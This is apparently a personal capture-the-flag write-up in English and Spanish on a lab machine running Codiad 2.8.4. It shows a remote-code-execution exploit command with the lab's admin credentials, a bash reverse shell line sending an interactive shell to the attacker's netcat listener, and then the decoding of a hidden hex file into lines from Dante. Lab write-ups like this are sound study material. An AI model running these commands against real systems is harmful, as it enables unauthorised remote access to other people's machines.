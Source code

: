 we are going to  use codiad 2.8.4

```
python3 remote_exec.py http://admin:dante1@172.16.2.186/inferno/ admin dante1 172.16.0.140 443 linux

```

we have this message 

```
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/172.16.0.140/444 0>&1 2>&1"' | nc -lnvp 443
nc -lnvp 444
[+] Please confirm that you have done the two command above [y/n]
[Y/n] 
```

Aclaracion :
TE PONES EN ESCUCHA POR EL PUERTO 443

echo 'bash -c "bash -i >/dev/tcp/172.16.2.186/444 0>&1 2>&1"' | nc -lnvp 443

PARA UNA VEZ GANAS EL ACCESO A LA MAQUINA Y HAY CONEXION ENVIA UNA CONSOLA INTERACTIVA AL PUERTO 444


So this script worked.

remember.. tty and the variable 
export SHELL=/bin/bash

now he put (ocult folders (?)) 
```
find . 2>/dev/null | less
```

a strange file called: 
Is on hexadecimal
```
cat ./Downloads/.download.dat; echo

```

if you want to see the archive before being changed to hexadecimal you must put this command


xxd (hexadecimal)
-ps (transforms to another format... I think some like bites or something) numeric
-r (transforms to a readable i think) letters
echo shows it 
```
cat ./Downloads/.download.dat | xxd -ps -r; echo

```

Now we have this

```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
```